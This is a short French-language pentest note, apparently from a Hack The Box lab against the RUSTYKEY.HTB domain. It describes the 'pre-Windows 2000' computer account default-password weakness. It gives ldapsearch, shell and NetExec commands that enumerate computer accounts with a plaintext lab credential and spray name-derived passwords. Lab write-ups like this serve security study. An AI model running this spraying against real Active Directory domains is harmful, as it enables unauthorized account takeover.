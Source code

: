 
Si compte de machine créé en tant que pre-windows 2000 computer, alors son mot de passe est automatiquement défini avec les 14 premiers caractères de son computer name en minuscule sans le ``$`` -> Somecomp$ -> Somecomp

![[Pasted image 20250811142126.png]]

Récupérer la liste des domaines computers et tenter de s'authentifier avec leur nom comme mot de passe.

```sh
ldapsearch -H ldap://10.10.11.75 -D rr.parker -w '8#t5HE8L!W3A' -x -b "DC=RUSTYKEY,DC=HTB" -s sub "(&(objectclass=computer))" | grep sAMAccountName: | cut -f2 -d":" -d " "
 > computers
```

```sh
cat computers | tr -d '$' | tr '[:upper:]' '[:lower:]' | cut -c1-14 > computers_potential_passwords
```

```sh
nxc ldap 172.16.5.5 -u computers -p computers_potential_passwords --continue-on-success --no-bruteforce | grep +
```

